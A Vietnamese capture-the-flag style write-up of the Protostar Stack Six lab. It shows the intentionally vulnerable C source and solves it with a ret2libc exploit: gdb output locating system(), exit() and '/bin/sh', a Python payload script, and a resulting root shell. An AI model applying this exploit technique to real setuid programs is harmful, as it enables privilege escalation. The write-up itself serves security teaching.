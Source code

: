# STACK SIX

## About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SIX` muốn chúng ta xem xét về cách vượt qua giới hạn khi mà địa chỉ trả về bị giới hạn. Cụ thể hơn là cách khai thác ret2libc.

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

if((ret & 0xbf000000) == 0xbf000000)

```
Giả sử ret = 0xbf777777
	     ret & 0xbf000000

	           0xbf777777 
           & 0xbf000000
	           __________
             0xbf000000 <-- luôn bằng 0xbf000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP nếu như địa chỉ đó nằm trong khoảng từ `0xbf000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) start
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1984
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoan địa chỉ từ `0xbf000000` đến `0xbfffffff` là stack -> không thể ghi đè shellcode lên stack rồi return lại để thực thi shellcode như `STACK FIVE`.

Thử thách này để có thể thực thi được shell ta sẽ sử dụng phương pháp ret2libc.
Đầu tiên là tìm lượng padding cần thiết để flow được vào EIP.

```
(gdb) c
Continuing.
input path please: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()       <-- 'TTTT'    76 ký tự
(gdb)
```

Sau đó là tìm địa chỉ của system() và exit() và địa chỉ của chuỗi `/bin/sh`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Địa chỉ của chuỗi `/bin/sh` ta tìm được khi kiểm tra lại không chứa chuỗi ta cần tìm.

Vì vậy ta sẽ dùng cách khác để tìm `/bin/sh`:

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Payload của chúng ta bây giờ là 

`payload = "A" * 76 + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 76
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin$ (python exp.py; cat) | ./stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
final1	format1  format4  heap2  net1  net4    stack2  stack5
final2	format2  heap0	  heap3  net2  stack0  stack3  stack6
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


